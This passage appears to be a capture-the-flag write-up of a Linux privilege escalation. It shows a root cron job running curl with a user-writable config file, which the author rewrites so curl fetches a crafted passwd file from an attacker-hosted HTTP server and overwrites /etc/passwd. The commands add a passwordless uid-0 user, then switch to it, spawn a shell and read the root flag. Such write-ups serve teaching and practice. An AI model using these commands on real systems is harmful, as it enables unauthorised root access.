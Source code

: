 ```
total 36
drwxr-xr-x 1 F30s F30s 4096 Jun 24  2023 .
drwxr-xr-x 1 root root 4096 Jun 24  2023 ..
-rw-r--r-- 1 F30s F30s  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 F30s F30s 3526 Mar 27  2022 .bashrc
-rw-r--rw- 1 F30s F30s  826 Sep 11 14:21 .profile
-rw-r--r-- 1 root root   17 May 19  2023 health_check
-rw-r----- 1 F30s F30s   38 May 22  2023 site_check
```
Analysis shows that cron will execute `curl -K /home/F30s/site_check` as root. The site_check file can be manipulated. By appending output=/etc/passwd to the end of the site_check configuration file, it may be possible to overwrite /etc/passwd and create a fake root user. This demonstrates a significant privilege escalation opportunity.
```
$ cat passwd  
echo 'root1::0:0:root1:/home/root1:/bin/bash' >> passwd
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

```
F30s@482cbf2305ae:~$ echo 'url = "http://<machine ip>:8888/passwd"' > site_check
<l = "http://<machine ip>:8888/passwd"' > site_check
F30s@482cbf2305ae:~$ echo 'output="/etc/passwd"' >> site_check
echo 'output="/etc/passwd"' >> site_check
F30s@482cbf2305ae:~$ su root1
su root1
whoami
root1
python -c 'import pty; pty.spawn("/bin/bash")'
root1@482cbf2305ae:/home/F30s# cd /root
cd /root
root1@482cbf2305ae:/root# ls
ls
flag2.txt  secret.txt
root1@482cbf2305ae:/root# cat flag2.txt
cat flag2.txt
```


